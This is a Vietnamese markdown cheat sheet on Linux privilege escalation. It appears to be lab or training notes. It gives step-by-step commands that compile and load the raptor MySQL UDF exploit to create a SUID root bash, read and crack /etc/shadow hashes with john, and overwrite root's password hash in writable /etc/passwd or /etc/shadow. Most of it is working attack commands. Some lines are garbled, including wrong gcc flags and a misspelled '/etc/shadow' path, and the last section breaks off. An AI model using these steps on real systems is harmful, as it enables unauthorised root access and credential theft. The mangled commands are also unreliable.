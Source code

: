 # Các cách tân công leo thang đặc quyền (Privilege Escalation)
---------------
## Service Exploits (Khai thác dịch vụ
* MySQL server đang chạy với quyền root nhưng root user lại không được cấp pass. Ta có thể khai thác User Defined Functions (UDFs) để chạy command với quyền root thông qua MySQL
  - Đầu tiên ta cd đến folder của MySQL UDFs: ```cd /home/<username>/tools/mysql-udf```
  - Thực thi code xâm nhập raptor_udf2.c:

        gcc -g -c raptor_udf2.c -fPIC
        gcc -g -shared -wl, -soname, raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lv
  - Kết nối tới MySQL với quyền root (mật khẩu rỗng):
 
        mysql -u root
  - Thực thi những câu lệnh sau để MySQL shell để tạo một UDFs:
 
        use mysql;
        create table foo(line blob);
        insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
        select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
        create function do_system returns integer soname 'raptor_udf2.so';
  - Dùng hàm để copy /bin/bash với /tmp/rootbash và cấp quyền SUID

        select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
  - Thoát shell MySQL (dùng ```exit``` hoặc ```\q```) và chạy lệnh với option ```-p``` để chạy shell với đặc quyền root

        /tmp/rootbash -p
  - Nhớ xoá ```/tmp/rootbash``` và thoát khỏi root shell trước khi tiếp tục
    
        rm /tmp/rootbash
        exit
    
------------------------
## Lợi dụng readable file (/etc/shadow)
* File /etc/shadow chứa pass của user dưới dạng mã hoá và thường chỉ root user mới có thể đọc
  - Nếu file này có thể đọc bởi user khác thì ta có thể lợi dụng điều này:

        cat /etc/shadơ
  - Mỗi dòng là thông tin của một user, đoạn thứ 2 của mỗi dòng là pass của user được hash
  - Copy pass của root và nhét vào một file (VD: hash.txt)
  - Dùng ```john``` hoặc một công cụ crack pass bất kỳ để dịch hash:

        john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
  - Chuyển tới root bằng pass mới thu được

        su root
-----------------------
## Lợi dụng writeable file (/etc/passwd và /etc/shadow)
* Ta có thể lợi dụng 2 file này để đổi mật khẩu của root user
  - Với file ```passwd```:

        openssl passwd <pass của bạn>
  (Câu lệnh này sẽ mã hoá pass bạn nhập vào cùng loại với pass của file ```passwd```
  - Với file ```shadow```:

        mkpasswd -m sha-512 <pass của bạn>
  (Câu lệnh này mã hoá pass của bạn bằng sha-512, cùng loại với file ```shadow```
  
------------------------
    
